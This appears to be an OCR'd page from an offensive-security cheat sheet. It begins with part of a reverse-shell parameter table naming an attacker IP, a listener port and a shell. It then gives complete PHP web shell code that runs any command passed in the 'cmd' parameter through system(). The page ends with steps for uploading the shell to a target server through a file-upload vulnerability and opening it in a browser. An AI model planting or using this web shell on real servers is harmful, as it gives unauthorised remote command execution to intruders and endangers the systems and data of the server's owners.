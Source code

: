 | Parameter | Description | Example |
|-----------|-------------|---------|
| IP Address | Attacker's IP address | `10.10.14.150` |
| Port | Listener port | `8080` |
| Shell | Shell to execute | `sh`, `/bin/sh`, `/bin/bash` |

---

## 2. PHP Web Shell

### Description
A simple PHP web shell that provides a web interface to execute commands on the server. This allows for command execution through a web browser interface.

### Features
- Web-based command execution interface
- Auto-focus on command input field
- Real-time command output display
- Simple and lightweight

### Complete Web Shell Code

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

### Usage Instructions

1. **Upload the PHP code to the target server**
   - Save the code as a `.php` file (e.g., `shell.php`)
   - Upload via file upload vulnerability or other means

2. **Access the uploaded file in your browser**
   - Navigate to `http://target-server.com/shell.php`
